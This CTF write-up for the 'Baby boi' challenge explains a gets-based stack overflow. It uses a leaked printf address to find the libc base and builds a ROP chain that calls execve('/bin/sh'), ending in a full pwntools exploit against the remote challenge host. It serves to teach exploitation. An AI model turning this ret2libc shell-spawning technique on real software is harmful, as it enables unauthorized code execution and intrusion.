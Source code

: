 # Baby boi (50)

We are given a 64bit binary, a libc and even the source code .
Our first assumptions is that it's a BOF (Buffer OverFlow) challenge cuz we can see the `gets` function with no control of the input length.
And we can see also that it's giving us the adress of `printf` in libc so no leak needed here.


![img1](executing.png)


and we also have the libc linked in the server so the attack scenario is simple:

1-get the leaked adress of printf.

2-get the offset of printf in libc and calculate the base adress.

3-collect needed gadgets and build the ROP chain.

4-from the base calculate the locations of `execve` and `/bin/sh` string to perform a ```execve("/bin/sh",0,0)``` call in order to get an interractive shell and then we can get the flag.


Let's start by getting offsets of printf and execve. To do that we can use `readelf` with `-s` option on the given libc to get the symbols table and from that we grep printf and execve.


![img2](readelf_printf.png)


we can see that the offset of printf in libc is `0x64e80`.


![img3](readelf_execve.png)


and the offset of execve in libc is `0xe4e30`.

okay let's start creating our exploit. Pwntools will make our life so much easier. First of all we have to get the leaked adress and calculate the base location.


```python
from pwn import * 
env = {"LD_PRELOAD":"./libc-2.27.so"}
p = process("./baby_boi",env=env)
data = p.recv()
data = data.split("\n")[1]
data = data.split(" ")[3]
printf_libc = int(data,16)
base = printf_libc - 0x64e80
print "base: ",hex(base)
```

![img4](ex1.png)

if you notice that the base adress ends with 000 cuz it's the beginning adress always.

now we have to calculate the location of execve by adding the execve offset from libc to the base so the exploit become like:

```python
from pwn import * 
env = {"LD_PRELOAD":"./libc-2.27.so"}
p = process("./baby_boi",env=env)
data = p.recv()
data = data.split("\n")[1]
data = data.split(" ")[3]
printf_libc = int(data,16)
base = printf_libc - 0x64e80
print "base: ",hex(base)
execve = base + 0x00000000000e4e30
print "execve_libc: ",hex(execve)
```

we can use gdb to calculate of offset between `execve` and `/bin/sh` string in libc so we can calculate its location.

![img5](gdb.png)


we can see that the offset is `0xcf06a`.

Okay now we need just the gadgets to perform the call that we want execve needs 3 arguments so we have to control `rdi`,`rsi` and `rdx` nad it's not a problem since we have the libc file and the libc base we can calculate locations for every gadget we want.

last step to go is to get the padding of the stack to control `RIP` or the instructions pointer peda is very good at this using its `pattern` tool with `create` and `offset` options.

![img6](patt.png)

We can see that the padding is 40 so our buffer is away 40 bytes from the saved return adress.

Everything is ready now just we need to complete the exploit and run it:

```python
from pwn import * 
env = {"LD_PRELOAD":"./libc-2.27.so"}
#p = process("./baby_boi",env=env)
p = remote("pwn.chal.csaw.io",1005)

data = p.recv()
data = data.split("\n")[1]
data = data.split(" ")[3]
printf_libc = int(data,16)
base = printf_libc - 0x0000000000064e80
execve = base + 0x00000000000e4e30
binsh = execve + 0xcf06a
print "base: ",hex(base)
print "execve_libc: ",hex(execve)
print "binsh: ",hex(binsh)
pop_rdi = 0x0000000000400793
paylaod = ""
paylaod += "A"*40
paylaod += p64(0x0000000000400791)
paylaod += p64(0)
paylaod += p64(0)
paylaod += p64(pop_rdi)
paylaod += p64(binsh)
paylaod += p64(execve)
p.sendline(paylaod)
p.interactive()
```
![img7](final.png)

FLAG: `flag{baby_boi_dodooo_doo_doo_dooo}`

